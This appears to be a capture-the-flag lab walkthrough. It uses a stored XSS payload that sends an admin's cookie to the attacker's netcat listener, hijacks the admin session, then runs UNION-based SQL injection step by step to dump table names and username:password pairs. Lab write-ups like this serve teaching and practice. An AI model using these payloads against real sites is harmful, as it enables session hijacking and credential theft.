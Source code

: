 ```sudo nmap -sC -sV -Pn 10.10.27.191```
```nc -lvnp 4545```

```<script>fetch('http://{IP}:4545?cookie=' + document.cookie);</script>```

Let's create a new listing with our payload and report it.

![cookie_steal_1](img/cookie_steal_11.png)

![cookie_steal_2](img/cookie_steal_2.png)

After we submit a new report, we can see our own cookie in the netcat listener.

![cookie_steal_3](img/cookie_steal_3.png)

![cookie_steal_4](img/cookie_steal_4.png)

After we report our listing, we can see that the admin has viewed our listing. Let's try to login to the admin page with the cookie we stole.

![edited_cookie](img/edited_cookie.png)

![admin_page](img/admin_page.png)

Great! We are in the admin page and it is greeting us with a flag. Let's do some enumeration on the admin page.

After some enumeration, I notice that the user page has a url of ```http://10.10.46.198/admin?user=1``` Let's check if it is vulnerable to SQL injection. WE can try to add ```'``` to the end of the url and see if it is vulnerable.

![sqli_vul](img/sqli_vul.png)

We can see that it is vulnerable to SQL injection. Let's try to enumerate the database. 

After some manual SQLi enumeration, I found out that we be using ```UNION``` 

We can start with ```http://10.10.46.198/admin?user=1 union select 1```
We are still getting error so we can try to use ```UNION SELECT 1,2``` and so on.

I found that after using ```UNION SELECT 1,2,3,4```, we dont get the error anymore. So we can see that the database has 4 columns. Let's try to enumerate the database. First, let's get database name.

```http://10.10.210.129/admin?user=0 union select database(),2,3,4```

![sqli_database](img/sqli_database.png)

Great! let's try to get the table name.

```http://10.10.210.129/admin?user=0 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()```

![sqli_table](img/sqli_table.png)

We can see that there are 3 tables in the database. Table ```users``` looks very interesting to us. Let's get its column name.

```http://10.10.210.129/admin?user=0 union select 1,group\_concat(column\_name),3,4 from information\_schema .columns where table\_name = 'users'```

![sqli_column](img/sqli_column.png)

Great! we can see that there are 3 columns. Let's get the username and password.

```http://10.10.210.129/admin?user=0 union select 1,group_concat(username,':',password SEPARATOR '&lt;br&gt;'),3,4 from users```

![sqli_dump](img/sqli_dump.png)
```